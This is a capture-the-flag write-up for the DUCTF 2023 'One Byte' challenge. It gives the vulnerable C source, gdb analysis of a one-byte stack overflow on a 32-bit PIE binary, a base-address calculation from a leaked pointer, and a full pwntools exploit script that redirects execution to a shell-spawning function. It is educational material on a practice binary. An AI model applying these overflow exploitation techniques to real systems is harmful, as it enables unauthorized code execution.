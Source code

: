 <h3> DUCTF 2023: One Byte </h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/68d8d008-53af-4ba1-b5ca-64e8631ff0ff)

We are given the binary and it's source code

Here's the C source:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/815e5671-519a-4466-85f4-11747e60342d)

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void init() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
}

void win() {
    system("/bin/sh");
}

int main() {
    init();

    printf("Free junk: 0x%lx\n", init);
    printf("Your turn: ");

    char buf[0x10];
    read(0, buf, 0x11);
}
```

Looking at it we can see the program doesn't do much!

Here's what it does:
- Defines 3 functions i.e init, win, main
- The init function does some buffering
- The win function tends to spawn a sh shell
- The main function gives us a binary leak of the init function
- Then it receives our input and store in the buf array

The vulnerability lies in the read call because:
- The buffer is set to hold up only `0x10` bytes
- But we are reading in `0x11`

That gives us a one byte buffer overflow

At first I was like this is too easy cause there's a win function and what the hell is the leak for?

Trust me it's easy but I spent about an hour solving it lol

From this vuln we know the idea is exploiting one byte overflow to a jump to the win function which would spawn a shell

Checking the file type and protection enabled showed this:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/84c35a71-5921-4dae-88e2-60fa70f9c9b0)

We are working with a 32bit binary which is dynamically linked and not stripped

The only protection not enabled is `Stack Canary`

Let us run the binary to see how it behaves
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f3ee4ad9-6593-464f-a76a-a3c7784bb8f8)

It is as we saw from the source code! 

I was still wondering why they gave us a elf section leak 🤔

Don't mind that I have lot of skill isses :(

![skillissue-skill](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/050f0dcf-b2e7-4ede-a2e7-426ffa0f6630)

Ok back to the challenge, I have done at least 2 `one byte overflow` before but it was on a x64 binary so solving this really taught me something new

I decided to check out the overflow using `gdb-gef`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3c3cb7ec-7dd4-4f9f-a38e-f9d4e1be01e0)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/dc16b498-4864-411e-8d7c-c19115751a69)

Looking at that we can see that I inputted 17 A's which is the amount of bytes required to perform the one byte overwrite

And from the result on our current instruction pointer which is the `eip` it is pointing to `0x41565562` 

This is where I starter getting confused

And the reason is becasue I'm used to seeing addresses being in form of Little Endian when I do one byte overflow i.e `0x56565541`

Note: The way I solved this is based on logic I don't really know `why` it works like that 🥲

So if we take a look at the current address of the win function we will see this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b42d7c56-b2a8-43ea-9e58-0e5b095544f1)

Because PIE is enabled it will always change during the program execution

And from our one byte overflow the address is giving `0x41565562` instead of `0x56565541`

That means our one byte overflow is just overwriting the first byte of the address and not the last

This is bad because how would we want to change the EIP to point to the win function when we can just only overwrite the first byte and not the last

I spent time figuring what to do but couldn't think of anything so I decided to look at what each character does when I overflow with it

That kinda sounds dumb like why is that important? To be honest I don't know 😂

So using this input I got this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9f3dd4b2-3155-44dc-83ac-d4c5eeff0bc1)

```python
'A'*16 + 'B'
```

Hmm interesting! Notice that the EIP has been overwritten with two bytes

I followed that pattern using another set of character
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/16485df6-7848-427d-b88c-87657202f028)

```python3
'A'*16 + 'C'
```

Wow again? We have overwritten 3 bytes just by using the third alphabet `C`

I did it for letter `D` and boom we have full control over the EIP
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2421948c-4eac-4fbd-a28f-9a9c09217d39)

This is cool because we having total control over the EIP therefore can make us change the program execution to call any function and in this case we would want to call the `win` function

But we need two things:
- The exact location of where our input which is overwriting the EIP is
- A way to get the win function address because PIE is enabled it will always change

The first and second case are easy to get:

For the first case since we know that in x86 binaries the memory address are 4 bytes alligned meaning we can therefore split our payload into fours i.e 'A'*4 + 'B'*4 etc.. 

Doing that I got the position to be the first 4 bytes of our input
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/bf4e3e80-c3ed-4ec9-900a-90b73e1a33a2)

```python
'A'*4 + 'B'*4 + 'C'*4 + 'D'*4 + 'D'
```

Cool so now instead of the EIP should be filled with A's we can fill it with the win function address 😎

About the win function address how do we get it since it will always change when the program runs??

Well come to think of it we were given an ELF section leak

Meaning that we can calculate the elf base address via that leak

When I check vmmap I get the start address of the elf binary
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/af66b8d3-8b71-4b87-8594-88cc990cde46)

The idea I usually use in calculating leaks is this:

```
leak - (known leak - elf base)
```

That basically will just subtract the leak with the offset to the elf base address

Now that we know that here's my solve script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from warnings import filterwarnings
filterwarnings('ignore')

context.update(arch='i386')
exe = './onebyte'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
piebase
break *main+110
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

io.recvuntil('Free junk:')
init = int(io.recvline().strip().decode(), 16)
elf.address = init - (0x565561bd - 0x56555000)
log.info("Elf base address: 0x%x", elf.address)
log.info("Jumping to address: 0x%x", elf.sym['win'])

payload = p32(elf.sym['win']) + b'A'*4 + b'C'*4 + b'D'*4 + b'D'

io.recvuntil('Your turn:')
io.send(payload)

io.interactive()
```

But when I ran it uhmmm it works and fails 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/754a5f54-5a6d-43b8-8981-14488dded912)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2ac246c9-f9cc-4d68-8476-6669eaf7b6a9)





